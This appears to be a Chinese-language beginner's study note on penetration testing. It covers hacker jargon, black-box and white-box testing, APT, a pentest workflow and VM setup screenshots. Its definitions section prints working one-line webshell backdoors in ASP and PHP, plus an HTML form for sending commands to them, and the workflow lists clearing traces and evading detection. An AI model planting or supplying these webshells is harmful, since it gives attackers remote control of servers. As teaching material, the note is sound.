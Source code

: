 ##术语词汇介绍


* 肉鸡:被黑客入侵并长期驻扎的计算机或服务器。


* 抓鸡：利用使用量大的程序的漏洞，使用自动化方式获取肉鸡的行为。


* WebShell：通过Web入侵的一种脚本工具，可以据此对网站服务进行一定程度的控制。


* 漏洞：硬件、软件、协议等等的可利用的安全缺陷，可能被攻击者利用，对数据进行篡改，控制等。


* 一句话 木马：通过向服务端提交一句简短的代码，配合本地客户端实现webshell功能的木马。
```php
<%eval request("pass")%>
```
```php
<%execute(request("pass"))%>
```
`request("pass")` 接收客户端提交的数据，`pass` 为执行命令的参数值。
`eval/execute` 函数执行客户端命令的内容。
如：PHP的一句话木马： 
```php
<?php eval($_POST[MM]);?>
```
下面的代码可以用 POST 的方式提交 PHP 语句，利用PHP脚本的各种函数，就可以实现执行系统命令、修改数据库、增删改查文件等等的各种功能。

```html
<form method="post " action="http://木马地址">
	<textarea name="MM">
		// 这里写PHP代码
		phpinfo();
	</textarea>
</form>
```


* 提权：操作系统低权限的账户将自己提升为管理员权限使用的方法。


* 后门：黑客为了对主机进行长期的控制，在机器上种植的一段程序或留下的一个“入口”。


* 跳板：使用肉鸡IP来实施攻击其他目标，以便更好的隐藏自己的身份。


* 旁站入侵：即同服务器下的网站入侵，入侵之后可以通过提权跨目录等手段拿到目标网站的权限。常见的旁站查询工具有：WebRoot、御剑、明小子和web在线查询等。


* C段入侵：即同C段下服务器入侵。如目标ip为192.168.2.250 入侵192.168.2.* 的任意一个机器，然后利用一些黑客工具嗅探获取在网络上传输的各种信息。常用的工具有：在windows下有Cain，在unix环境下有Sniffit、Snoop、Tcpdump、Dsniff等。


##渗透测试：


* 黑盒测试：
未授权的情况下。模拟黑客的攻击方法和思维方式，来评估计算机网络系统可能存在的安全风险。
黑盒测试不同于黑客入侵，并不等于黑站。黑盒测试考验的是综合能力（OS、Database、Script、code、思路、社工）
思路与经验积累往往决定成败。
三个臭皮匠顶过诸葛亮。

* 白盒测试：
相对于黑盒测试，白盒测试基本是从内部发起。

* 黑白盒的另一种说法：
知道源代码和不知道源代码的渗透测试。
这时，黑盒测试还是传统的渗透测试，而白盒测试就偏向于代码审计。

* APT攻击：Advanced Persistent Threat，高级可持续攻击，是指组织或者小团体利用先进的攻击手段对特定目标进行长期持续性网络攻击的攻击形式。
1.极强的隐蔽性
2.潜伏期长、持续性强
3.目标性强

* 渗透测试的特点：
1.充满挑战与刺激，不达目的不罢休
2.思路与经验积累往往决定成败

* 渗透测试与入侵的最大区别：
1. 渗透测试：更全面地找出服务器的问题，更倾向于保护。
2. 入侵：不择手段地（甚至是具有破坏性的）拿到权限。


* 一般渗透测试流程:


1. 明确目标
	确定范围
	确定规则
	确定需求

2.  信息收集
	基础信息
	系统信息
	应用信息
	版本信息
	服务信息
	人员信息
	防护信息

3.  漏洞探测
	系统漏洞
	WebServer漏洞
	Web应用漏洞
	其他端口服务漏洞
	通信安全
	
4.  漏洞验证
	自动化验证
	手工验证
	试验验证
	登录猜解
	业务漏洞验证
	公开资源的利用
	
5.  形成报告
	按需整理
	补充介绍
	修补建议
	
6.  信息整理
	整理渗透工具
	整理收集信息
	
7.  获取所需
	实施攻击
	获取内部信息
	进一步渗透
	持续性存在
	清理痕迹
	
8.  信息分析
	精准打击
	绕过防御机制
	定制攻击路径
	绕过检测机制
	攻击代码 


<!-- * 经验分享：


1. 信息收集是关键
2. 做事不要太心急
3. 多学习，多看源码
4. 平时注意收集 0day
5. 思路很重要 -->

##虚拟机安装WindowsServer2003的过程截图：
* VMware15 下载地址：https://www.7down.com/soft/310739.html
* 安装步骤


1.  VMware 点击创建新的虚拟机
![avatar](/src/static/img/xnj1.png)
2.  选择典型  
![avatar](/src/static/img/xnj2.png)
3.  选择稍后安装操作系统  
![avatar](/src/static/img/xnj3.png)
4.  选择WindowsServer2003 Enterprise Edition
![avatar](/src/static/img/xnj4.png)
5.  输入虚拟机名称，选择存储路径 
![avatar](/src/static/img/xnj5.png)
6.  设置虚拟磁盘容量  
![avatar](/src/static/img/xnj6.png)
7.  点击完成  
![avatar](/src/static/img/xnj7.png)
8.  编辑虚拟机设置   
![avatar](/src/static/img/xnj8.png)
9.  选择系统镜像文件    
![avatar](/src/static/img/xnj9.png)
10.  开机    
![avatar](/src/static/img/xnj10.png)
11.  进入到安装引导页面  具体安装过程略  
![avatar](/src/static/img/xnj11.png)
12.  安装完成    
![avatar](/src/static/img/xnj12.png)